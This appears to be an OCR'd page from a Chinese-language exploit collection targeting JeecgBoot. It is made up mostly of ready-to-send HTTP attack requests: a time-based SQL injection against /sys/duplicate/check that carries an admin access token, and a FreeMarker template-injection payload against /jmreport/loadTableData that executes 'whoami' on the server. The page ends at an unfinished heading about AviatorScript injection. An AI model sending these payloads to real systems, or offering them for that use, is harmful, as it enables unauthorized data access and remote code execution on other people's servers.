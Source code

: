 Cache-Control: max-age=0  
  
X_ACCESS_TOKEN: eyJ0eXAi0iJKV1QiLCJhbGci0iJIUzI1Ni J9.eyJleHAi0jE2NzA2NjUy0TQsInVzZXJ uYW1lIjoiYWRtaW4i fQ.bL0e7k3rbFEewdMoL2YfPCo9rtzx7g9 KLjB2LK-J9SU  
  
  
GET /jeecg-boot/sys/duplicate/check?tableName=sys_log&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(10))&fieldVal=1000&dataId=2000 HTTP/1.1  
  
Host:   
  
Accept-Encoding: gzip, deflate  
  
Accept: */*  
  
Accept-Language: en-US;q=0.9,en;q=0.8  
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36  
  
Connection: close  
  
Cache-Control: max-age=0  
  
X_ACCESS_TOKEN: eyJ0eXAi0iJKV1QiLCJhbGci0iJIUzI1Ni J9.eyJleHAi0jE2NzA2NjUy0TQsInVzZXJ uYW1lIjoiYWRtaW4i fQ.bL0e7k3rbFEewdMoL2YfPCo9rtzx7g9 KLjB2LK-J9SU  
## JeecgBoot jmreport/loadTableData SSTI模板注入漏洞  
  
jeecg-boot 版本 3.5.3 中的 SSTI 注入漏洞允许远程攻击者通过对 /jmreport/loadTableData 组件进行精心设计的 HTTP 请求执行任意代码。  
  
  
POST /jeecg-boot/jmreport/loadTableData HTTP/1.1  
  
Host:   
  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0  
  
Accept: application/json, text/plain, */*  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate  
  
Content-Type: application/json;charset=UTF-8  
  
X-Sign: AD0488642A880C68C8E3551C3BE0F6F5  
  
X-TIMESTAMP: 1699726206096  
  
X-Access-Token: null  
  
token: null  
  
JmReport-Tenant-Id: null  
  
Content-Length: 167  
  
Connection: close  
  
Cookie: Hm_lvt_5819d05c0869771ff6e6a81cdec5b2e8=1699726144; Hm_lpvt_5819d05c0869771ff6e6a81cdec5b2e8=1699726162  
  
{"dbSource":"","sql":"select '<#assign value=\"freemarker.template.utility.Execute\"?new()>${value(\"whoami\")}'","tableName":"test_demo);","pageNo":1,"pageSize":10}  
## JeecgBoot AviatorScript表达式注入  
  